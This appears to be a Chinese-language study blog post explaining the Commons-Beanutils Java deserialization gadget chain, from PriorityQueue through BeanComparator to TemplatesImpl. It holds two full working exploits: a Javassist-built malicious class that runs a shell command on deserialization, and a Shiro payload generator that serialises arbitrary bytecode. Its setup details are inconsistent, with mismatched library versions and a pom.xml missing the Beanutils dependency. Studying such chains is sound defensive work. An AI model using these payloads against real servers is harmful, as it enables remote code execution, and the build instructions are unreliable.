




# Java安全学习—CommonsBeanutils链

Author: H3rmesk1t

Data: 2022.2.11

## 前言
`Commons-Beanutils`是`Apache`提供的一个用于操作`Java bean`的工具包, 其中比较常用的工具类有: `MethodUtils`/`ConstructorUtils`/`PropertyUtils`/`BeanUtils`/`ConvertUtils`等. 在之前学习`CommonsCollections2`链时, 主要是通过向`java.util.PriorityQueue`对象传入恶意`java.util.Comparator`对象, 导致在`PriorityQueue`在反序列化过程中执行了恶意`java.util.Comparator`的`compare`方法. 反序列化利用链大概过程为:

```java
PriorityQueue -> 
TransformingComparator -> 
ChainedTransformer -> 
InstantiateTransformer -> 
TemplatesImpl
```

在反序列化链中, 由`TransformingComparator`触发`ChainedTransformer`来实例化`TemplatesImpl`, 这里利用`CommonsBeanutils`来绕过中间复杂过程, 直接实例化`TemplatesImpl`.


## 环境搭建
 1. `JDK`版本: JDK1.8u66
 2. `Commons-Collections4`版本: 3.1
 3. `Commons-Beanutils`版本: 1.9.2
 4. `Commons-Logging`版本: 1.1

利用`maven`来进行搭建, 先创建一个`Maven`项目, 不用选择任何`Maven`模板, `pom.xml`中内容如下, 之后选择右侧的更新, 让其自动导入包即可.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>3.2</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
        </dependency>
    </dependencies>

</project>
```


## 前置知识
### PropertyUtils
`org.apache.commons.beanutils.PropertyUtils`类使用`Java`反射`API`来调用`Java`对象上的通用属性`getter`和`setter`操作的实用方法, 这些方法的具体使用逻辑其实是由`org.apache.commons.beanutils.PropertyUtilsBean`来实现的. 这个类有个共有静态方法`getProperty`, 其接收两个参数`bean`(类对象)和`name`(属性名), 方法会返回这个类的这个属性的值. 这就类似于一个`Field`的反射工具类, 不过不是直接使用反射取值, 而是使用反射调用其`getter`方法取值.




### BeanComparator
`BeanComparator`是`Commons-Beanutils`提供的用来比较两个`JavaBean`是否相等的类, 其实现了`java.util.Comparator`接口. `BeanComparator`在初始化时可以指定`property`属性名称和`comparator`对比器, 如果不指定则默认是`ComparableComparator`.



`BeanComparator`的`compare`方法接收两个对象, 分别调用`PropertyUtils.getProperty`方法获取两个对象的`property`属性的值, 然后调用`internalCompare`方法调用实例化时初始化的`comparator`的`compare`方法进行比较.



## ExploitWithCC
根据上面的思路, 构造出最终的攻击代码如下:

```java
package CommonsBeanUtils1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/11 4:05 下午
 */
public class CommonsBeanUtilsWithCC {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void CB() throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("CBEvilWithCC");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");");

        byte[] bytes = ctClass.toBytecode();
        byte[][] targetBytes = new byte[][]{bytes};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "h3rmesk1t");
        setFieldValue(templates, "_bytecodes", targetBytes);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(beanComparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        try {
            // 序列化操作
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CBEvilWithCC.bin"));
            outputStream.writeObject(queue);
            outputStream.close();
            // 反序列化操作
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CBEvilWithCC.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {

        CB();
    }
}
```



## ExploitWithoutCC
在`ExploitWithoutCC`中的代码可成功构造反序列化利用, 但是`BeanComparator`的默认`comparator`是`ComparableComparator`, 这是个`CommonCollections`中的类, 导致了这明明是一条`CB`的触发链, 却要同时依赖`CC`. 增加了很多利用的限制. 因此为了改变这一现状, 在实例化`BeanComparator`时赋予其一个`JDK`自带的并且实现了`Serializable`接口的`comparator`即可, 比如`java.util.Collections$ReverseComparator`和`java.lang.String$CaseInsensitiveComparator`等. 通过反射实例化`Comparator`, 并在`BeanComparator`初始化时进行指定即可.

这里贴一个师傅们的`Payload`:

```java
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

## 调用链

```java
PriorityQueue.readObject()
    BeanComparator.compare()
            PropertyUtils.getProperty()
                PropertyUtilsBean.getProperty()
                    TemplatesImpl.getOutputProperties()
```

## 总结
 1. 利用说明:
    - `PriorityQueue`反序列化时调用`BeanComparator`的`compare`, 利用这个方法发射调用`TemplatesImpl`的`getOutputProperties`方法触发恶意类的实例化.
 2. Gadget 总结:
    - kick-off gadget: java.util.PriorityQueue#readObject
    - sink gadget: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
    - chain gadget: org.apache.commons.beanutils.BeanComparator#compare